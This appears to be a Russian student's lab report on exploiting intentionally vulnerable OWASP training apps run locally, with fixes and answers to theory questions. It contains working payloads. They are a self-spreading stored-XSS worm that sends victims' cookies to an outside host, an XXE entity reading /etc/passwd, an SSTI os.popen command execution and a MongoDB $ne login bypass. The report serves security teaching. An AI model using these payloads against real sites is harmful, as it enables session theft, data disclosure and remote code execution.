# Labwork 4 — Безопасность WEB-приложений
де Джофрой Мишель М3407

## 0. Окружение

Поднял приложения из `owasp-top10-apps` через docker compose (`make install` в папке каждого задания). Все слушают localhost на разных портах.

## 1. Broken Access Control (tictactoe, :10005)

```
cd owasp-top10-apps/task1/tictactoe
make install
```

Зарегал двух юзеров: `mikedegeofroy` и `seven_fridays`. Поиграл за `mikedegeofroy`, открыл её `/statistics`. В DevTools → Network вижу, что данные тянутся так:



Сначала проверил можно ли просто дергать статистику без аутентификации

```
curl 'http://localhost:10005/statistics/data?user=mikedegeofroy'
```

Нельзя. Посмотрел, стоит хедер Cookie, глянул что в сессии, увидел, что там есть JWT токен, расшифровал его на jwt.io:





Поэтому решил залогиниться как `seven_fridays` и из консоли дёрнул тот же запрос, скопировал его как curl и подменил на мой `user_id`:

```
curl 'http://localhost:10005/statistics/data?user=mikedegeofroy' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:151.0) Gecko/20100101 Firefox/151.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: http://localhost:10005/statistics' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: <seven_fridays session>
```



Под чужой сессией получил мою статистику. Сервер проверяет только наличие сессии, но не сверяет, что `user` совпадает с владельцем сессии — это и есть Broken Access Control (IDOR).

Фикс: брать `user` из сессии, а не из query.

## 2. Cross-Site Scripting (gossip-world, :10007)

```
cd owasp-top10-apps/task2/gossip-world
make install
```

Блог, где юзеры постят сообщения. В форму нового поста вставил:

```html
<script>
	console.log("hello world");
</script>
```

При открытии списка постов в консоль логируется `hello world`, значит ввод сохраняется в БД и отдаётся обратно без экранирования. Stored XSS срабатывает у всех, кто открывает страницу.



Через него можно угнать cookie сессии, делать действия от имени других юзеров — а можно сделать так, чтобы XSS распространялся сам.

```html
you have been pwnd
<script>
	(async () => {
		if (window.__wormed) return;
		const me = document.currentScript.outerHTML;
		window.__wormed = true;
		
		await fetch(`https://bore.moik.dev/dump`, {
			method: "POST",
			mode: "no-cors",
			body: document.cookie
		});

		const page = await (
			await fetch("/newgossip", { credentials: "include" })
		).text();
		const token = new DOMParser()
			.parseFromString(page, "text/html")
			.querySelector('input[name="_csrf_token"]').value;
		fetch("/newgossip", {
			method: "POST",
			credentials: "include",
			headers: { "Content-Type": "application/x-www-form-urlencoded" },
			body: new URLSearchParams({
				_csrf_token: token,
				title: "you have been pwnd",
				subtitle: "you have been pwnd",
				text: me,
			}),
		});
	})();
</script>
```

Посты расходятся сами — каждый просмотр плодит новый:



А на мой сервер прилетает cookie жертвы:



Фикс: экранировать вывод, не использовать dangerously set inner html ?.., cookie с `HttpOnly`.

## 3. Security Misconfiguration / XXE (vinijr-blog, :10004)

```
cd owasp-top10-apps/task3/vinijr-blog
make install
```

Форма контактов шлёт POST на `/contact.php` с телом в виде XML (увидел в DevTools). Сохранил нормальный запрос в `payload_basic.xml`:



```xml
<?xml version="1.0"?>
<contact>
  <name>Mike</name>
  <email>mike@example.com</email>
  <subject>Hi</subject>
  <message>hello</message>
</contact>
```

Проверил, что через curl отправка работает:

```
curl -d @payload_basic.xml localhost:10004/contact.php
```

Сервер парсит XML с включёнными внешними сущностями — **XXE**. В `payload_xxe.xml` добавил DOCTYPE с external entity на `/etc/passwd`:

```xml
<?xml version="1.0"?>
<!DOCTYPE contact [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
  <name>&xxe;</name>
  <email>x@x</email>
  <subject>x</subject>
  <message>x</message>
</contact>
```

```
curl -d @payload_xxe.xml localhost:10004/contact.php
```

В ответе вместо имени пришло содержимое `/etc/passwd` (`root:x:0:0:...`). PHP-шный `libxml` по умолчанию резолвит внешние сущности — это и есть та самая misconfiguration.



Фикс: не включать внешние сущности в парсере (в старом PHP — `libxml_disable_entity_loader(true)`, не передавать `LIBXML_NOENT`/`LIBXML_DTDLOAD`). Лучше — JSON вместо XML.

## 4. Server Side Template Injection (sstype, :10001)

```
cd owasp-top10-apps/task4/sstype
make install
```

Приветствие: берёт `name` и подставляет в шаблон. Базовый запрос:

```
curl 'http://localhost:10001/?name=Mike'
```

Вернул `Hello, Mike!`. Проверяю, что ввод реально вычисляется:



```
GET http://localhost:10001/?name={{7*7}}
```

Вернул `Hello, 49!` — выражение eval-ится. Это SSTI. Раз сервер считает Python, читаю `/etc/passwd` через `os.popen`:



```
GET http://localhost:10001/?name={{ os.popen('cat /etc/passwd').read() }}
```

Пришёл `/etc/passwd`. Тем же примитивом можно выполнить любую команду — это полноценный RCE.



Фикс: не пихать пользовательский ввод в `eval`/`render`. Данные отдельно от шаблона: `template.render(name=user_input)`, а не рендерить сам ввод как шаблон.

## 5. NoSQL Injection (mongection, :10001)

```
cd owasp-top10-apps/task5/mongection
make install
```

В `db.js` запрос такой:

```js
User.findOne({ email: req.body.email, password: req.body.password });
```

То есть body подставляется в Mongo-запрос без проверки типа. `$ne` (не равно) — это оператор Mongo. Если в `password` передать `{"$ne": ""}`, запрос станет «найди любого этим email и не пустым паролем»:

```
curl -X POST http://localhost:10001/login \
  -H 'Content-Type: application/json' \
  -d '{"email": "mikedegeofroy@gmail.com", "password": {"$ne": ""}}'
```

Залогинился юзером mikedegeofroy@gmail.com из БД, не зная пароля.



Фикс: приводить поля к строке (`String(req.body.email)`) или валидировать схему. Пароли — хранить хешем (`bcrypt`/`argon2`), а не открыто. Вообщем, осторожно относиться к user-input и считать, что там всегда может быть что-то опасное.

## Ответы на дополнительные вопросы

**1. Чем отличаются client-side и server-side уязвимости?**

Client-side (XSS, CSRF, clickjacking) бьют по браузеру жертвы. Server-side (SQLi, SSTI, XXE, RCE) — по самому серверу: данные всех юзеров, файлы, иногда вся инфра. Server-side обычно опаснее — один эксплойт = доступ ко всему.

**2. Почему Security Misconfiguration может возникнуть даже в безопасно написанном коде?**

Код может быть идеальным, но кривой конфиг фреймворка/сервера всё равно открывает дыру: дефолтные пароли, debug в проде, открытые бакеты, XML-парсер с external entities, CORS `*`. Безопасность — это не только код, но и настройки.

**3. Как разработчики могут предотвратить XSS и SQL-инъекции?**

- XSS — экранировать вывод, не пихать данные в `innerHTML`, CSP, `HttpOnly` на cookie.
- SQLi — только параметризованные запросы (prepared statements), никогда не клеить SQL из строк.

**4. Как определить, что приложение подвержено XSS?**

Вставить пейлоады во все поля и URL-параметры (`<script>alert(1)</script>`, `"><svg onload=alert(1)>`). Если попап появился или payload отрисовался как HTML — уязвимо. Еще можно воспользоваться Burp/ZAP.

**5. Reflected vs Stored vs DOM-based XSS?**

- Reflected — пейлоад в URL сразу возвращается в ответе, нужно заманить жертву по ссылке.
- Stored — сохраняется в БД и отдаётся всем, кто открывает страницу (опаснее всего).
- DOM-based — в клиентском JS (`location.hash` → `innerHTML`), сервер вообще не участвует.

**6. Как CSP помогает против XSS?**

Заголовок, который говорит браузеру, откуда можно грузить ресурсы. `script-src 'self'` запрещает inline и чужие скрипты — даже внедрённый `<script>` не выполнится. Не панацея, но сильно поднимает планку.

**7. Чем NoSQL-инъекции отличаются от SQL?**

В SQL ломают строку синтаксисом (`' OR 1=1--`). В NoSQL инъектят объект, потому что запрос это JSON: вместо `password="x"` передают `{"$ne":""}`. У MongoDB ещё `$where` позволяет гнать JS прямо на сервере БД.

**8. Угрозы при загрузке файлов и как делать безопасно?**

Угрозы: веб-шелл (`.php` → RCE), path traversal, полиглоты (картинка с кодом внутри), XXE через SVG. Безопасно: whitelist типов/расширений, рандомное имя файла, хранить вне webroot, отключить выполнение скриптов в папке загрузок, лимит размера.

**9. Защита от Brute-Force и Credential Stuffing?**

Rate limiting на логин (по IP и аккаунту), CAPTCHA после неудач, MFA (лучшее против stuffing), проверка пароля по базе утечек (haveibeenpwned), мониторинг аномальных логинов.

**10. Чем OAuth 2.0 и OpenID Connect отличаются от логина/пароля?**

С логином-паролем приложение само хранит и проверяет креды. OAuth 2.0 — протокол авторизации: приложение получает access token от провайдера (Google/GitHub) и ходит с ним в API, пароль не видит. OpenID Connect — надстройка над OAuth для аутентификации, добавляет ID token (JWT) с данными юзера. Плюс — не доверяешь пароль третьему приложению; минус — зависишь от провайдера.
